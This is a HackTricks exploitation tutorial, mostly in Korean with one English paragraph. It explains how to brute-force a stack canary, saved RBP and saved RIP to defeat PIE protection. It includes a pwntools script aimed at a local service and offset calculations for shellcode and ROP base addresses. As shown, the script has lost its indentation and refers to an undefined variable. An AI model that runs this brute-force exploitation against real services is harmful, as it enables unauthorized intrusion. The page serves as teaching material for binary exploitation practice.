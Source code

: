 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**만약 당신이 canary와 PIE(위치 독립 실행 파일)로 보호된 바이너리를 마주하고 있다면, 이를 우회할 방법을 찾아야 할 것입니다.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`**는 바이너리가 canary로 보호되고 있는지 찾지 못할 수 있습니다. 이는 정적으로 컴파일되었고 함수를 식별할 수 없기 때문입니다.\
그러나 함수 호출의 시작 부분에서 스택에 값이 저장되고 이 값이 종료 전에 확인되는 것을 발견하면 수동으로 이를 알 수 있습니다.
{% endhint %}

## Brute-Force Addresses

PIE를 우회하기 위해서는 **주소를 유출해야** 합니다. 만약 바이너리가 어떤 주소도 유출하지 않는다면, 가장 좋은 방법은 **취약한 함수에서 스택에 저장된 RBP와 RIP를 무작위로 추측하는 것**입니다.\
예를 들어, 바이너리가 **canary**와 **PIE**로 보호되고 있다면, 먼저 canary를 무작위로 추측한 다음, **다음** 8 바이트(x64)는 저장된 **RBP**가 되고, **다음** 8 바이트는 저장된 **RIP**가 됩니다.

{% hint style="success" %}
스택 내의 반환 주소는 주 바이너리 코드에 속하는 것으로 가정되며, 취약점이 바이너리 코드에 위치한다면 일반적으로 그렇습니다.
{% endhint %}

바이너리에서 RBP와 RIP를 무작위로 추측하기 위해서는 프로그램이 무언가를 출력하거나 단순히 충돌하지 않는 경우 유효한 추측 바이트가 올바르다는 것을 알 수 있습니다. **canary를 무작위로 추측하는 데 제공된 것과 동일한 함수**를 사용하여 RBP와 RIP를 무작위로 추측할 수 있습니다:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
PIE를 무너뜨리기 위해 필요한 마지막 것은 **유출된** 주소에서 **유용한 주소를 계산하는 것**입니다: **RBP**와 **RIP**입니다.

**RBP**에서 스택에 **쉘을 어디에 쓰고 있는지** 계산할 수 있습니다. 이는 스택 내에서 문자열 _"/bin/sh\x00"_을 어디에 쓸 것인지 아는 데 매우 유용할 수 있습니다. 유출된 RBP와 쉘코드 간의 거리를 계산하려면 **RBP를 유출한 후에 브레이크포인트를 설정하고** **쉘코드가 어디에 위치하는지** 확인한 다음, 쉘코드와 RBP 간의 거리를 계산할 수 있습니다:
```python
INI_SHELLCODE = RBP - 1152
```
From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**.\
To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:

![](<../../../../.gitbook/assets/image (145).png>)

이 예제에서는 모든 코드를 찾기 위해 **1바이트 반**만 필요하다는 것을 볼 수 있습니다. 따라서 이 상황에서 기본 주소는 **유출된 RIP이지만 "000"으로 끝나는** 것입니다. 예를 들어, `0x562002970ecf`가 유출되었다면 기본 주소는 `0x562002970000`입니다.
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
